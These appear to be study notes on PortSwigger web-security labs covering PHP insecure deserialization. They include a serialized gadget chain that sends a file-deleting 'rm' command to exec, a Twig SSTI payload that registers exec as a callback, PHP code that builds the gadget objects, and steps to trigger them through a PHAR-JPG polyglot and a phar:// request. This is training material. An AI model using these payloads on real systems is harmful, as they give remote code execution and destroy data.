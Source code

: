 ![](Pasted%20image%2020250329143107.png)

s:17:"default_desc_type" --> s:26:"rm /home/carlos/morale.txt" 
	**'default_desc_type' = 'rm /home/carlos/morale.txt'** 
	
s:4:"desc"; --> O:10:"DefaultMap" ({ s:8:"callback" --> s:4:"exec"; }
	**'desc' = 'DefaultMap'** object WHERE **'callback' = 'exec'**

desc(default_desc_type) ==> DefaultMap(default_desc_type) == _ _get(default_desc_type)  ==> return(callback, default_desc_type) ==> return(exec, 'rm /home/carlos/morale.txt) ==> exec(rm /home/carlos/morale.txt)


-----------------------------------------------------------------------
# 9. Using PHAR deserialization to deploy a custom gadget chain (expert)
This lab does not explicitly use deserialization. However, if you combine `PHAR` deserialization with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain.

To solve the lab, delete the `morale.txt` file from Carlos's home directory. You can log in to your own account using the following credentials: `wiener:peter`

**Analysis**:
1. Observe that the website has a feature for uploading your own avatar, which only accepts `JPG` images. Upload a valid `JPG` as your avatar. Notice that it is loaded using `GET /cgi-bin/avatar.php?avatar=wiener`.
2. In Burp Repeater, request `GET /cgi-bin` to find an index that shows a `Blog.php` and `CustomTemplate.php` file. Obtain the source code by requesting the files using the `.php~` backup extension.
3. Study the source code and identify the gadget chain involving the `Blog->desc` and `CustomTemplate->lockFilePath` attributes. Notice that the `file_exists()` filesystem method is called on the `lockFilePath` attribute.
4. Notice that the website uses the Twig template engine. You can use deserialization to pass in an server-side template injection (SSTI) payload. Find a documented SSTI payload for remote code execution on Twig, and adapt it to delete Carlos's file:
    ```TWIG
    {{_self.env.registerUndefinedFilterCallback("exec")}}  {{_self.env.getFilter("rm /home/carlos/morale.txt")}}
    ```
5. Write a some PHP for creating a `CustomTemplate` and `Blog` containing your SSTI payload:
    ```PHP
    class CustomTemplate {} 
    class Blog {} 
    $object = new CustomTemplate; 
    $blog = new Blog; 
    $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'; 
    $blog->user = 'user'; 
    $object->template_file_path = $blog;
    ```
6. Create a `PHAR-JPG` polyglot containing your PHP script. You can find several scripts for doing this online (search for "`phar jpg polyglot`"). Alternatively, you can download our [ready-made one](https://github.com/PortSwigger/serialization-examples/blob/master/php/phar-jpg-polyglot.jpg).
7. Upload this file as your avatar. In Burp Repeater, modify the request line to deserialize your malicious avatar using a `phar://` stream as follows:  `GET /cgi-bin/avatar.php?avatar=phar://wiener`
